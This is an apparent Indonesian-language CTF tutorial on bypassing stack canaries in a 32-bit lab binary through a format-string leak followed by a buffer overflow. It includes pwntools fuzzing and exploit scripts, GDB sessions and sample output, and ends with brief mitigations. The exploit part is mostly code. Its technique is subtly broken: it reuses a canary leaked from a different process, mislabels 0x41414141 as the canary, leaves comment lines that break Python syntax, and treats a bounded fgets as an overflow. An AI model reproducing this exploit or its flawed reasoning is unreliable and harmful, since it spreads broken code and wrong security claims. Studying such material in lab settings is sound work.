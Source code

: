 ```yaml
---
title: Bypassing Stack Canaries (Leak + Write) - Pwn03.1
date: 2025-08-20
Tags: ["Pwn"]
---
```



teknik bypassing stack canaries dengan memanfaatkan format string vulnerability untuk melakukan leak dan kemudian buffer overflow.

## 1. Analisis Awal dan Basic File Checks

Pertama, kita lakukan analisis dasar pada binary:

```bash
# Compile program dengan canary enabled (default pada GCC modern)
gcc -m32 -fstack-protector-all -o vuln vuln.c

# Check security protections
checksec vuln
```

Output yang mungkin muncul:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## 2. Review Source Code

Dari source code yang diberikan, kita identifikasi vulnerability:
- **Format String Vulnerability**: `printf(buf)` tanpa format string
- **Buffer Overflow Potential**: `fgets(buf, sizeof(buf), stdin)` dengan batas 64 byte
- **Canary Protection**: Karena compiled dengan stack protector

## 3. Fuzzing dengan Format String

Kita gunakan format string untuk mencari posisi canary di stack:

```python
from pwn import *

# Test format string dengan berbagai offset
for i in range(1, 20):
    p = process('./vuln')
    p.sendlineafter('> ', '%{}$p'.format(i))
    result = p.recvline().strip()
    print(f"Offset {i}: {result}")
    p.close()
```

Output contoh:
```
Offset 1: 0xffffd124
Offset 2: 0x64
Offset 3: 0xf7e6c620
Offset 4: 0xffffd004
Offset 5: 0x8048520
Offset 6: 0x804a000
Offset 7: 0x41414141  <-- Canary biasanya dimulai dengan null byte (0x00)
Offset 8: 0xf7ffd000
Offset 9: 0xffffd1e4
Offset 10: 0x0
```

## 4. Identifikasi Canary dengan GDB/Pwndbg

Mari gunakan debugger untuk menemukan canary:

```bash
gdb ./vuln
```

Di dalam GDB:
```
(gdb) b *main+100
(gdb) r
(gdb) canary
```

Output:
```
The canary value is: 0x1f4c3d00
```

Kita juga bisa mencari canary secara manual:
```
(gdb) info frame
Stack level 0, frame at 0xffffd0c0:
 eip = 0x804856d in main; saved eip = 0xf7e13637
 Arglist at 0xffffd0b8, args: 
 Locals at 0xffffd0b8, Previous frame's sp is 0xffffd0c0
 Saved registers:
  ebx at 0xffffd0b4, ebp at 0xffffd0b8, eip at 0xffffd0bc
(gdb) x/20wx $esp
0xffffd060:     0xffffd07c      0x00000040      0x00000000      0xffffd124
0xffffd070:     0xffffd104      0x00000000      0x00000000      0x1f4c3d00  <-- Canary
0xffffd080:     0x00000000      0x00000000      0x00000000      0x00000000
```

## 5. Eksploitasi: Leak Canary dan Buffer Overflow

Sekarang kita buat script exploit lengkap:

```python
#!/usr/bin/env python3
from pwn import *

context(arch='i386', os='linux')
context.log_level = 'debug'

# BINARY = './vuln'
# p = process(BINARY)
# gdb.attach(p, '''
#     b *main+150
#     continue
# ''')

# Untuk tutorial, kita gunakan contoh nilai
CANARY_OFFSET = 7
RET_OFFSET = 16

def leak_canary():
    p = process('./vuln')
    
    # Leak canary dengan format string
    p.sendlineafter('> ', '%{}$p'.format(CANARY_OFFSET))
    canary_leak = p.recvline().strip()
    canary = int(canary_leak, 16)
    
    log.info("Leaked canary: 0x{:08x}".format(canary))
    p.close()
    return canary

def exploit(canary):
    p = process('./vuln')
    
    # Leak alamat base stack untuk menghitung alamat flag
    p.sendlineafter('> ', '%{}$p'.format(3))
    stack_leak = p.recvline().strip()
    stack_addr = int(stack_leak, 16)
    flag_addr = stack_addr - 0x50  # Adjust berdasarkan debugger
    
    log.info("Stack leak: 0x{:08x}".format(stack_addr))
    log.info("Estimated flag addr: 0x{:08x}".format(flag_addr))
    
    # Craft payload dengan canary yang benar
    payload = b'A' * 64          # Buffer
    payload += p32(canary)       Canary yang benar
    payload += b'B' * 12         Padding sampai return address
    payload += p32(flag_addr)    Return address - arahkan ke flag
    
    p.sendlineafter('> ', payload)
    
    # Interact dengan shell
    p.interactive()

if __name__ == '__main__':
    canary = leak_canary()
    exploit(canary)
```

## 6. Debugging dengan GDB/Pwndbg

Mari lihat proses debugging saat exploit berjalan:

```bash
gdb ./vuln
(gdb) b *main+150  # Breakpoint sebelum return
(gdb) r < <(python3 exploit.py)
```

Ketika breakpoint terhenti, kita periksa stack:
```
(gdb) x/10wx $esp
0xffffd060:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd070:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd080:     0x41414141      0x41414141
(gdb) x/wx $ebp-0xc  # Lokasi canary
0xffffd0ac:     0x1f4c3d00
```

Kita bisa verifikasi canary tidak berubah setelah overflow.

## 7. Final Exploit dan Hasil

Setelah menjalankan exploit, output yang sukses akan terlihat seperti:

```
[+] Starting local process './vuln': pid 1234
[*] Leaked canary: 0x1f4c3d00
[*] Stack leak: 0xffffd124
[*] Estimated flag addr: 0xffffd0d4
[+] Starting local process './vuln': pid 1235
[*] Switching to interactive mode
> CTF{example_flag_value}
```

## 8. Mitigation dan Pelajaran

Teknik ini bekerja karena:
1. Format string vulnerability memungkinkan leak nilai canary
2. Buffer overflow memungkinkan overwrite return address
3. Kita mempertahankan nilai canary yang valid

Cara mencegah:
- Selgunakan menggunakan format string yang benar: `printf("%s", buf)`
- Gunakan stack canary dengan entropy tinggi
- Implementasi ASLR yang efektif

Dengan tutorial ini, Anda seharusnya sekarang memahami bagaimana stack canaries bekerja dan bagaimana mereka dapat di-bypass dengan kombinasi format string leak dan buffer

